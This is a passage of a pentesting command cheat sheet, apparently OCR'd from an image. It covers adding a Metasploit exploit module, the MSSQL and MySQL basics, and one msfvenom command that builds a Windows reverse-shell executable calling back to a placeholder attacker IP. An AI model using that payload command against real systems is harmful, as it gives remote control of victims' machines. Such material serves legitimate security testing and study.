 # import new exploit (install from git)
wget url_to_raw_ruby_exploit
cp ruby_exploit /opt/metasploit-framework/embedded/framework/modules/exploits/path/to/fitting/category/exploit.rb
# exit msfconsole + restart


MSFVENOM
--------
# list available payloads
msfvenom --list payloads

# create Windows TCP reverse shell exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_IP LPORT=port_here -f exe -a x64 -o shell.exe


MSSQL
-----
# connect to a db server as user
mssql -s IP_db_server -o port -u username -p password


MYSQL / MARIADB
---------------
# start service
systemctl start mysql.service

# restart service
systemctl restart mysql.service

# stop service
systemctl stop mysql.service

# launch mysql as default user on kali
mysql -u root -p

# create new database
create database 'db_name';
